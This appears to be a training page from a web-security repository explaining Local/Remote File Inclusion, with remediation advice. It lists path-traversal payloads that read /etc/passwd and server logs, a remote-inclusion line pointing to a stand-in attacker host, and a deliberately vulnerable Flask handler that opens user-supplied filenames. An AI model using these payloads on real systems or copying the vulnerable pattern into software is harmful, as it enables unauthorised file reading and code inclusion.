


# [⬅️](./README.md) LFI/RFI - Local/Remote File Inclusion

## Severity:
High/Critical
## Description:
Used to include remote content (internal/external) dynamically in the application.
| Kind | File Location             |
| ---- | ------------------------- |
| LFI  | from the server           |
| RFI  | from the client(attacker) |
```
🔐 https://bank/getContract?documentID=Contract_1.pdf
🔐 https://bank/getPage?page=help.html
🔐 https://bank/getPage?page=lang-fr.html
```
When the application fails to validate the origin of the remote content the page is requesting, an attacker can **make use of parameter tampering to control the path**.
> Now, what could happen if we start playing with the file specification?
```
../../../../../../etc/passwd
../../../../../../etc/passwd%00.pdf
../../../../../../apache/log/errors.log ****Code Injection
../../../../../../apache/log/access.log
C:\\boot.ini
http://badguy.com/maliciousfileRFI.txt
```
## Vulnerable code:
```python
@app.route("/home", methods=['POST'])
def home():
    filename = request.form['filename']
    if filename == "":
        filename = "text/default.txt"
    f = open(filename,'r')
    read = f.read()
    return render_template("index.html",read = read)
```
## Steps to reproduce the vulnerability:
Simply play with the `POST` request, sending different values for the `filename` field:

Sending `filename:%2Fetc%2Fpasswd` (`/etc/passwd` url encoded) will result the following:

## Remediation description:
* Avoid user input to include files.
* If really needed, do not refer to the files from it’s relative/absolute path.
    * Create indexes to represent the file names in a lookup table.
    * The user should be presented only the indexes values on the interface for authorized files.
* Have a white-list of allowed domains for file inclusion.
* Do strict input validation allowing only the standard name characters.
    `[a-zA-Z0-9_\.] / \ . %00 %2E %2F %5C %25` are dangerous characters.

## Remediation code:
* User input validation
* Whitelist of input